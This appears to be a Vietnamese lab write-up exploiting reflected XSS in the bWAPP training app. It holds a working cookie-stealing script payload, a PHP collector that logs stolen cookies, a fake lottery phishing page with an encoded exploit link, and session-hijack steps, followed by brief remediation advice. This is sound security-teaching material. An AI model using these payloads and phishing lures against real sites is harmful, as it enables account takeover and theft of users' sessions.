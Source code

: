 Bước 1: Xác định vị trí có thể dính XSS
Thử nhập họ tên và nhận được kết quả

![image](https://github.com/user-attachments/assets/34804180-fbab-4493-b02e-6a7296ad0bb2)

Kết quả trả về hiển thị ‘ Welcome Tran Van Thiep’. Từ đó có thể xác định có
khả năng bị dính lỗi XSS

Do là hoạt động theo phương thức GET nên có thể thấy dữ liệu được truyền đi 
kèm theo URL.

![image](https://github.com/user-attachments/assets/b2a93875-390a-4994-8316-65c6e540112f)

Bước 2: Kiểm tra lỗi XSS

Sau khi đã xác định được vị trí có khả năng mắc lỗi XSS, tiến hành kiểm tra 
bằng cách thử truyền vào 1 đoạn mã java script **<script>alert("XSS")</script>** để
thực hiện tạo 1 popup thông báo để kiểm tra xem site có bị lỗi XSS hay không?

![image](https://github.com/user-attachments/assets/8867814d-0762-40c0-a74a-6ec7c2a0430c)

Vậy là đã chắc chắn web vulnerable với XSS, ta sẽ tiến hành khai thác bằng kỹ thuật đánh cắp cookie:

Code php crawl cookie:

```php
<?php
    if(isset($_GET['cookie']))
    {
        $cookie = $_GET['cookie'];
        // Mở file cookie.txt, tham số a nghĩa là file này mở chỉ để write chứ không scan hay read
        $f=fopen('cookie.txt','a');
        // Ta write địa chỉ trang web mà ở trang đó bị ta chèn script.
        fwrite($f,$_SERVER['HTTP_REFERER']);
        // Ghi giá trị cookie
        fwrite($f,". Cookie la: ".$cookie." \n");
        // Đóng file lại
        fclose($f);
    }
?>
```

* Tạo một url phishing
```html
<html>
    <head>
        <title>Lottery</title>
    </head>
    <body>
	    <h1 align="center">CONGRATULATIONS!!!</h1>
	    <h1 align="center">YOU WON!!!</h1>
	    Click this <a href="http://localhost/bwapp/xss_get.php?firstname=%3Cscript%3Ewindow.open%28%22http%3A%2F%2Flocalhost%2Fget.php%3Fcookie%3D%22%2Bdocument.cookie%29%3C%2Fscript%3E&lastname=A&form=submit">link</a> to see your prize
    </body>
</html>
```
Phần bị mã hóa: 	   
```javascript
<script>window.open("http://localhost/get.php?cookie="+document.cookie)</script>
```

Tiếp theo, lừa người dùng click vào link phishing

![image](https://github.com/user-attachments/assets/b11b655f-febd-44f3-8afe-0df393e30ed0)

Khi mục tiêu ấn click vào link sẽ bị chuyển hướng tới web đã bị đệm javascript, sau đó sẽ bị crawl cookie về cookie.txt tại máy attacker:

![image](https://github.com/user-attachments/assets/7dd1b4e2-8b66-4523-847b-f93117a7cf0f)

Copy cookie và vào trình duyệt paste cái cookie này vào

![image](https://github.com/user-attachments/assets/1f7734b6-bfe2-4068-b3da-bf2efafca3c7)

Kết quả sau khi add cookie ta đã login mà không cần mật khẩu

![image](https://github.com/user-attachments/assets/79a836ee-6dcc-4d39-8b35-ae3dc4afbf0c)

### Cách khắc phục
+ Lọc và kiểm tra dữ liệu đầu vào
	- Đảm bảo rằng mọi dữ liệu đầu vào từ người dùng đều được kiểm tra và làm sạch trước khi được sử dụng trong trang web.

	- Xóa bỏ hoặc mã hóa các ký tự đặc biệt có thể được sử dụng trong tấn công XSS (như <, >, ", ', &).

	- Sử dụng các thư viện hoặc công cụ hỗ trợ như OWASP AntiSamy, DOMPurify để làm sạch đầu vào.

+ Thoát ký tự đầu ra
	- Đối với các ngôn ngữ kịch bản như HTML, JavaScript, thoát ký tự đặc biệt trước khi đưa dữ liệu từ người dùng ra trang web.

